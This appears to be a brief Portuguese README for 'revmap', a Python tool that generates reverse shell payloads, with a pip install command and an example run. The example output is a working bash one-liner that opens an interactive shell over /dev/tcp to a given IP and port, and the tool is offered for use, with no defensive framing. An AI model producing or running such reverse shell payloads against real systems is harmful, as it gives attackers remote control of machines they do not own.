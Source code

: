 # Instalação

revmap requer **python3** e para baixá-lo só usar:

```sh
pip3 install revmap
```

# Executando revmap

```console
revmap --ip 192.168.4.160 --port 8080 --payload bash

 ___ ___ _ _ _____ ___ ___ 
|  _| -_| | |     | .'| . |
|_| |___|\_/|_|_|_|__,|  _|
                      |_|  
        v0.0.1 - @joaoviictorti 
                                               

bash -c 'exec bash -i &>/dev/tcp/192.168.4.160/8080 <&1'
```


<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>

